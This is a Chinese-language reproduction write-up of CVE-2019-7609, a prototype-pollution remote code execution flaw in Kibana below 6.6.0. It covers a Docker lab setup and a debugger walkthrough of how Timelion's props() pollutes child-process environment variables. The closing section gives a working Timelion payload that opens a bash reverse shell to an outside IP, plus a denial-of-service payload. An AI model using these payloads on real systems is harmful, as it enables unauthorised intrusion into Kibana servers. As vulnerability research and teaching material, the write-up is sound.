 （CVE-2019-7609）kibana \< 6.6.0 未授权远程代码命令执行
=======================================================

一、漏洞简介
------------

Kibana 是一款开源的数据分析和可视化平台，它是Elastic
Stack成员之一，设计用于和Elasticsearch协作。

二、漏洞影响
------------

kibana \< 6.6.0

三、复现过程
------------

#### 环境搭建

    docker pull docker.elastic.co/kibana/kibana:6.5.4 
    docker network create elastic 
    docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
    docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
    docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：

    docker ps -a --no-trunc  # 找到启动脚本

    在node启动命令后加上--inspect=0.0.0.0:9229

    docker commit kibana kibana-debug  # 保存修改后的镜像
    docker rm -f kibana
    docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器

kibana控制台：<http://127.0.0.1:5601/> inspect调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId27.png)

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：

    .es(*).props(label.__proto__.cookie="aaa")

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId28.png)

要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId29.png)

DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：

    if(obj.jsCode) eval(obj.jsCode) 这种白给的
    express ejs模版引擎中的动态函数调用

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了\...）。

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId30.png)

作者据此得出结论：kibana在创建新进程
创建进程可就是个敏感的行为了，能不能污染命令/参数呢？
来动态看下进程创建的过程，

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId31.png)

首先调用normalizeSpawnArguments.apply()处理参数，

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId32.png)

跟进，

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId33.png)

这里实际是在处理child\_process.spawn(command\[, args\]\[,
options\])的第三个参数options。

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId34.png)

这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。
作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。
回想下控制台报的错：\"Starting inspector on 0.0.0.0:9229 failed: address
already in use\"。
这句话透露出的是：此时正在创建一个node命令进程，并且使用了\--inpect:0.0.0.0:9229参数。
这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE\_OPTIONS变量，

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId35.png)

通过这个变量，可以覆盖node进程的参数。
也就是说，现在我们能控制node进程的参数了。这就很有用了，比如\--eval参数是可以直接执行代码的。

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId36.png)

但是，NODE\_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向\--eval这种是用不了的。

不过作者找到了另一个参数\--require，

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId37.png)

这个有点像php里的auto\_prepend\_file，预加载一个文件。

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId38.png)

现在我们可以看成有一个文件包含的洞了，怎么RCE呢？
通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。
作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![](./.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId39.png)

最后payload如下：

> 将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion`
> 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

然后自己机器开启监听，再点击 Canvas
